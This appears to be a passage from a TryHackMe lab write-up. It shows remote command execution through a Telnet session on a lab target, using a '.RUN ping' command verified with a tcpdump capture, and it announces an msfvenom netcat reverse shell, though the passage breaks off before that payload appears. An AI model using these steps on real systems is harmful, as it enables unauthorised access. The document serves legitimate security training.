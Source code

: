 ***Correct answer: No answer needed***

Now, use the command "`ping [local THM ip] -c 1`" through the telnet session
to see if we're able to execute system commands.
Do we receive any pings? Note, you need to preface this with `.RUN` (Y/N)

*Solution:* I am using my own machine with OpenVPN.

To find my own address, look at the [access page](https://tryhackme.com/access)

![access](access.png)

In the Telnet session:

```bash
.RUN ping 10.9.0.168 -c 1
```

Then, in the other Terminal window with the TCP listener, we see:

```bash
❯ sudo tcpdump ip proto \\icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:16:36.951835 IP 10.10.234.88 > spam-B450M-S2H: ICMP echo request, id 1286, seq 1, length 64
11:16:36.951872 IP spam-B450M-S2H > 10.10.234.88: ICMP echo reply, id 1286, seq 1, length 64
```

***Correct answer: Y***

Great! This means that we are able to execute system commands AND
that we are able to reach our local machine. Now let's have some fun!

***Correct answer: No answer needed***

We're going to generate a reverse shell payload using `msfvenom`.
This will generate and encode a netcat reverse shell for us.
Here's our syntax:

